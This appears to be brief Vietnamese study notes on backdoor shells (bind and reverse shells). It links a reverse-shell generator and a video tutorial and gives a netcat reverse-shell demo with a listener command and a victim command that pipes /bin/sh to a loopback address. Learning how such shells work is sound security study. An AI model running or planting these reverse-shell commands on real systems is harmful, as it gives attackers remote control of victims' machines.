 # Backdoor Shell

- Hai shell điển hình tạo backdoor:
  * Bind shell
  * Reverse shell
 
## [1] Bind-shell

## [2] Reverse-shell
- [Tools Support Create Reverse-Shell](https://www.revshells.com/) .

- VD demo:
  * Attacker: `nc –nlvp 5555`
  * Victim: `/bin/sh | nc 127.0.0.1 5555`

- Reference:
  * [how to get remote access to your hacking targets // reverse shells with netcat (Windows and Linux!!)](https://www.youtube.com/watch?v=bXCeFPNWjsM&t=52s) .








